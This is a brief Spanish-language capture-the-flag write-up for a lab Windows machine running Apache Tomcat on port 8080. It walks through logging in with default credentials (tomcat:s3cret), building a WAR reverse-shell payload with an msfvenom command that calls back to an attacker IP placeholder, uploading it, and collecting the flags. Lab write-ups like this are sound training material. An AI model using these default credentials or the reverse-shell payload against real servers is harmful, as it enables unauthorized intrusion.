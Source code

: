 10.10.10.95
Windows
Port: 8080

- Vamos a ver su pagina web.
- Tenemos un Tomcat, por lo tanto existe un login para poder entrar.
![](../../Imagenes/Pasted%20image%2020250322165238.png)
- Sabemos que por lo general cuando no se configura bien, Tomcat viene con usuarios predefinidos, vamos a probar cada usuario
- Las credenciales eran, ==tomcat:s3cret==.
![[Pasted image 20250317175955.png]]
- Tenemos como subir un archivo para hacer una reverse.
- Vamos a hacer un payload con msfvenom.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
![[Pasted image 20250317180229.png]]
- Vamos a subirlo.
![[Pasted image 20250317180320.png]]
- Ya esta subido, vamos a hacer la reverse y recordar hacer otra reverse estando dentro para tener una conexión mas estable.
![[Pasted image 20250317180523.png]]
- Ya estamos dentro.
- Buscamos y encontraremos las flags de usuario y root.